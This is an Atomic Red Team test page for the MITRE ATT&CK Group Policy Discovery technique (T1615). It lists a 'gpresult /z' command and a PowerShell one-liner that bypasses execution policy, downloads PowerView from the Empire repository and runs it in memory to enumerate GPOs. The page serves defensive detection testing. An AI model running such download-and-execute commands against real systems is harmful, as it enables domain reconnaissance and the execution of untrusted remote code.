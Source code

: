 # T1615 - Group Policy Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1615)
<blockquote>Adversaries may gather information on Group Policy settings to identify paths for privilege escalation, security measures applied within a domain, and to discover patterns in domain objects that can be manipulated or used to blend in the environment. Group Policy allows for centralized management of user and computer settings in Active Directory (AD). Group policy objects (GPOs) are containers for group policy settings made up of files stored within a predicable network path <code>\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\</code>.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016)

Adversaries may use commands such as <code>gpresult</code> or various publicly available PowerShell functions, such as <code>Get-DomainGPO</code> and <code>Get-DomainGPOLocalGroup</code>, to gather information on Group Policy settings.(Citation: Microsoft gpresult)(Citation: Github PowerShell Empire) Adversaries may use this information to shape follow-on behaviors, including determining potential attack paths within the target network as well as opportunities to manipulate Group Policy settings (i.e. [Domain Policy Modification](https://attack.mitre.org/techniques/T1484)) for their benefit.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Display group policy information via gpresult](#atomic-test-1---display-group-policy-information-via-gpresult)

- [Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView](#atomic-test-2---get-domaingpo-to-display-group-policy-information-via-powerview)


<br/>

## Atomic Test #1 - Display group policy information via gpresult
Uses the built-in Windows utility gpresult to display the Resultant Set of Policy (RSoP) information for a remote user and computer
The /z parameter displays all available information about Group Policy. More parameters can be found in the linked Microsoft documentation
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/gpresult
https://unit42.paloaltonetworks.com/emissary-trojan-changelog-did-operation-lotus-blossom-cause-it-to-evolve/
Turla has used the /z and /v parameters: https://www.welivesecurity.com/wp-content/uploads/2020/05/ESET_Turla_ComRAT.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** 0976990f-53b1-4d3f-a185-6df5be429d3b






#### Attack Commands: Run with `command_prompt`! 


```cmd
gpresult /z
```






<br/>
<br/>

## Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView
Use PowerView to Get-DomainGPO This will only work on Windows 10 Enterprise and A DC Windows 2019.

**Supported Platforms:** Windows


**auto_generated_guid:** 4e524c4e-0e02-49aa-8df5-93f3f7959b9f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/86921fbbf4945441e2f9d9e7712c5a6e96eed0f3/empire/server/data/module_source/situational_awareness/network/powerview.ps1'); Get-DomainGPO"
```






<br/>
